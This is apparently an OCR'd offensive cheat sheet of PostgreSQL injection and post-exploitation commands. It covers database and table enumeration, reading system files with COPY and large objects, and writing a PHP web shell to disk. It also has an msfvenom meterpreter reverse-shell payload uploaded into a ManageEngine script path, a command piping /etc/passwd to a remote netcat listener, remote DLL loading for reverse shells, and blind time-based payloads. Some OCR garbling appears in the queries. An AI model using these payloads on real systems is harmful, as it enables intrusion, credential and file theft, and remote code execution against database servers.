 	Databases:  SELECT datname FROM pg_database;
	Tables:  SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r',") AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid);
	    SELECT table_name FROM information_schema.tables
	Columns:  SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public');
	    SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
	Read File:  CREATE temp table mytable (content text); COPY mytable from $$c:\\Windows\\System32\\Drivers\\etc\\hosts$$; SELECT content from mytable LIMIT 1 OFFSET 0; DROP table mytable;
	    Method 2:  SELECT lo_import($$C:\\Windows\\win.ini$$,1337); select loid, pageno, encode(data, 'escape') from pg_largeobject; ->After:  SELECT lo_unlink(l.oid) FROM pg_largeobject_metadata l;  OR  SELECT lo_unlink(1337);
	Create File:  CREATE TABLE mytable (mycol text); INSERT INTO mytable(mycol) VALUES ('<?php passthru($_GET[cmd]); ?>'); COPY mytable (mycol) TO '/tmp/test.php'; 
	    Or:  COPY (SELECT $$abc$$) to $$c:\\abc.txt$$;
	    Reverse Shell Upload (use POST, with one-liner payload base64 encoded, then URL encoded):  copy (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
		Payload:  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
	    Method 2:  see large object method
	Run Command:  CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; SELECT system('cat /etc/passwd | nc 10.0.0.1 8080');
	Time Delay:  SELECT pg_sleep(10);
	Base64 Encoding:  select convert_from(decode('YWJj==', 'base64'), 'utf-8');
	Hex Encoding and Concatenation:  SELECT CHR(117) || CHR(115) || CHR(101) || CHR(114);   \\same as SELECT user;
	Substitute for Quotes:  SELECT 'user';  =  SELECT $$user$$;  =  SELECT $TAG$user$TAG$;
	    ex. CREATE TEMP TABLE mytable(mycolumn text);INSERT INTO mytable(mycolumn) VALUES ($$test$$); COPY mytable(mycolumn) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
	Blind Time-Based:
	    SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
	    Reading File:  create+temp+table+ABC+(content+text);copy+ABC+from+$$c:\ABC.txt$$;select+case+when(ascii(substr((select+content+from+ABC),1,1))=104)+then+pg_sleep(10)+end;--+
	Large Objects:
	    select lo_import('C:\\Windows\\win.ini', 1337);	//load file into memory
	    select loid, pageno from pg_largeobject;	//file is divided into 2kb 'pages' in the table
	    select loid, pageno, encode(data, 'escape') from pg_largeobject;
	    update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0;	//update each page individually
	    select lo_export(1337, 'C:\\new_win.ini');	//resave as new file
	    SELECT lo_unlink(1337);	//delete LO from memory
	Loading Extensions (User-Defined Functions):
		CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.1.1\myshare\exec.dll$$, $$execFunc$$ LANGUAGE C STRICT;
                SELECT remote_test($$calc.exe$$, 3);
		CREATE OR REPLACE FUNCTION rev_shell(text, integer) RETURNS void AS $$\\\\192.168.119.158\\awae\\rev_shell.dll$$,$$connect_back$$ LANGUAGE C STRICT;
		SELECT rev_shell($$192.168.1.1$$, 4444);
		Base64 Insert:
			INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 0, decode('<B64 chunk1>', 'base64'));
			INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 1, decode('<B64 chunk2>', 'base64'));
			INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 3, decode('<B64 chunk2>', 'base64'));
		Hex Insert:  update pg_largeobject set data=decode('68656c6c6f', 'hex') where loid=173454 and pageno=0; 
